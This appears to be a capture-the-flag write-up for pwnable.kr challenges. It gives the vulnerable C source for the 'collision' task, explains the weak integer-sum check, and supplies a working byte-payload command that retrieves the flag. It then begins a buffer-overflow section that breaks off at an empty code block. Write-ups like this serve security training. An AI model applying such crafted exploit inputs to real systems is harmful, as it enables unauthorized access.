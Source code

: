 
## 0x02 collision
```
Daddy told me about cool MD5 hash collision today.
I wanna do something like that too!

ssh col@pwnable.kr -p2222 (pw:guest)
```
First we read the source code `col.c`.
```
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
    int* ip = (int*)p;
    int i;
    int res=0;
    for(i=0; i<5; i++){
        res += ip[i];
    }
    return res;
}

int main(int argc, char* argv[]){
    if(argc<2){
        printf("usage : %s [passcode]\n", argv[0]);
        return 0;
    }
    if(strlen(argv[1]) != 20){
        printf("passcode length should be 20 bytes\n");
        return 0;
    }

    if(hashcode == check_password( argv[1] )){
        system("/bin/cat flag");
        return 0;
    }
    else
        printf("wrong passcode.\n");
    return 0;
}
```
At `int *ip = (int*)p`,`const char *p` is casted to `int *`. Since the size of `int` is 4 bytes, the size of `char` is 1 byte and the lengh of `passcode` is 20 bytes, we can read the flag when the sum of five `int` blocks is `0x21DD09EC`. Since `0x21DD09EC = 0x06C5CEC8 * 4 + 0x06C5CECC` and the system is little-endian, we injection the following code:
```
./col `python -c 'print "\xc8\xce\xc5\x06" * 4 + "\xcc\xce\xc5\x06"'`
```


## 0x03 bof
```
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```
According to the prompt we know that the question is about buffer overflow. We debug it with GDB and PEDA. First we set a breakpoint at the main function and then run the program.
```
```
